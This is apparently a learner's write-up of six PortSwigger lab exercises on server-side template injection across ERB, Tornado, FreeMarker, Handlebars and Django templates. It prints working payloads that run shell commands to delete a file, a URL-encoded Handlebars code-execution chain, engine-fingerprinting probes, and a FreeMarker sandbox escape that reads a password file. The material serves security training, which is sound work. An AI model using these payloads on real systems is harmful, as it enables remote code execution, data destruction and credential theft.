 # Portswigger Labs

## Lab 1: Basic SSTI

When viewing the requests sent upon viewing a product, this is what I see:

![](../../.gitbook/assets/portswigger-ssti-writeup-image.png)

Further testing reveals that this `message` parameter is printed on the screen:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-1.png)

Using `<%= 7/0 %>` causes a 500 error. This means that the template is processing information insecurely. Using this, I can execute `system("rm /home/carlos/morale.txt")`.

## Lab 2: Basic SSTI with Code Context

This lab provides me with a 'preferred name' feature:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-2.png)

When the request is viewed, I saw that it uses `user.first_name`.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-3.png)

It looks like this is dynamically retrived. This lab uses a Tornado template, and since it uses `user.first_name`, the input might be processed like this:

```
{{user.first_name}}
```

Since the above is probably not sanitised, I can do enter `}}{{6*6`. This might cause the expressions evaluated to be:

```
{{user.first_name}}{{6*6}} (the last 2 brackets are automatically there)
```

The method above works, and the '36' is reflected when I leave a comment on a post. Using this method, one can execute Python using the following format:

```

<div data-gb-custom-block data-tag="import"></div>{{os.system('rm /home/carlos/morale.txt')
```

Afterwards, leave a comment on any post.

## Lab 3: Using Documentation

This particular lab requires us to identify the template engine used.

The lab provides us with a 'Edit template' option.

![](../../.gitbook/assets/portswigger-ssti-writeup-image-4.png)

Using this, I can attempt to identify the template used using this payload:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

The first one is processed!

![](../../.gitbook/assets/portswigger-ssti-writeup-image-5.png)

I went to PayloadAllTheThings and tested all the frameworks of which this worked with, and found that it was FreeMarker being used:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-6.png)

There are quite a few payloads for code execution:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-7.png)

The rest of the lab is trivial.

## Lab 4: Unknown Language

Firstly, this lab uses the `message` parameter, and using `{{7*7}}` results in an error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-8.png)

The above uses Handlebars. Hacktricks has a payload for this, which can be modified to solve the lab:

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27rm+/home/carlos/morale.txt%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```

## Lab 5: Information Disclosure via User-Supplied Objects

To solve this lab, steal the secret key from the website. By trying to edit the content of a post with this:

```
${7*7}
{{7*7}}
{{7*'7'}}
a{*comment*}b
${"z".join("ab")}
```

It causes this error:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-9.png)

So this runs on Django. Using \`

\` reveals a ton of information, and actually it shows some Jinja2 debug stuff:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-10.png)

I can then use this payload to extract the key to solve the lab:

![](../../.gitbook/assets/portswigger-ssti-writeup-image-11.png)

## Lab 6: Sandboxed Environment

This lab uses the Freemarker template engine. To solve the lab, read `/home/carlos/my_password.txt`. This lab gives us `content-manager` access.

{% embed url="https://portswigger.net/research/server-side-template-injection" %}

This is the payload they used:

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

![](../../.gitbook/assets/portswigger-ssti-writeup-image-12.png)

Converting this to ASCII and submitting that solves the lab. I will dive into this exploit...another time.
